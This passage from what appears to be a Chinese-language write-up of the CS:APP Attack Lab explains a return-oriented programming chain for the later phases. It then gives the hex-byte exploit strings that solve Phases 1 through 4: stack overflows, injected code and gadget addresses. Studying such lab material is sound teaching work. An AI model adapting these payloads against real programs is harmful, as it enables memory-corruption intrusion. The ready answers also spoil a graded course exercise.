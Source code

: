 其实汇编里面有一个指令叫`nop`，`hex`为`0x90`，表示没有操作，而刚刚好，我们可以找到`58 90 c3`。  
那么这个指令我们有`0x4019ab`和`0x4019cd`两个匹配，选择其中一个即可。  
查表，`mov rax, rdi; ret`为`48 89 c7 c3`，刚好我们`0x4019a2`就有。  
到这里，我们就可以构建出完整的调用链了。
## Phase 5
和上面`Phase 3`一样，`hexmatch`会开启一个大的栈空间，会把我们注入的代码覆盖，所以要注入到不会被覆盖的位置。`test`的栈帧由于栈随机化，我们同样无法访问，所以我们需要对`rsp`加上一个偏移。  
两个函数的c代码和上面的一样。  
```x86asm
movq %rsp, %rax
movq %rax, %rdi            ;将栈指针放入rdi
popq %rax
0x48                       ;将0x48放入rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi            ;将rax放入rsi
lea (%rdi, %rsi, 1), %rax  ;栈指针和0x48相加
movq %rax, %rdi            ;相加结果放入rdi作为touch3的参数
touch3
ACSII C-style string of cookie
```
## Answer
### Phase 1
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00 
```
### Phase 2
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 DC 61 55 00 00 00 00
```
### Phase 3
```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```
### Phase 4
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
```